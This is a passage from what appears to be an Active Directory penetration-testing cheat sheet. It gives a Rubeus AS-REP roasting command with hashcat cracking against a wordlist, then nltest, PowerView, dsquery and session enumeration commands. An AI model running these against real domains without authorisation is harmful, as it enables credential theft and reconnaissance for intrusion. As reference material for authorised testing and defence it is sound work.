- https://github.com/GhostPack/Rubeus
```
Rubeus.exe asreproast /domain:COMPANY.LOCAL /dc:192.168.0.10 /format:hashcat /outfile:asrep-roast.hashes
hashcat -m 18200 'asrep-roast.hashes' -a 0 ./wordlists/rockyou.txt
```


## Authenticated enumeration

```
nltest /domain_trusts
nltest /trusted_domains
nltest /primary
nltest /sc_query:<domain>
nltest /dclist:<domain>
nltest /dsgetsite
nltest /whowill:<domain> <user>
```

### Domain policy using PowerView
```
Get-DomainPolicy
(Get-DomainPolicy)."System Access"
```

### Getting password policy
Get domain password policy using **ActiveDirectory** module. ([RSAT](https://4sysops.com/wiki/how-to-install-the-powershell-active-directory-module/))
```
Get-WindowsCapability -Name RSAT* -Online | Select-Object -Property DisplayName, State
Get-ADDefaultDomainPasswordPolicy
```

Get all domain fined grained password policy
```
Get-ADFinedGrainedPasswordPolicy -Filter *
```

Get password policy for specific user
```
Get-ADUserResultantPasswordPolicy -Identity john.doe
```

### MISC Enumeration commands
Recursive search for *Domain Admins* members
```
dsquery group -name "Domain Admins" | dsget group -expand -members
```

### Get Net session
```
Get-NetComputer | Get-NetSession
```
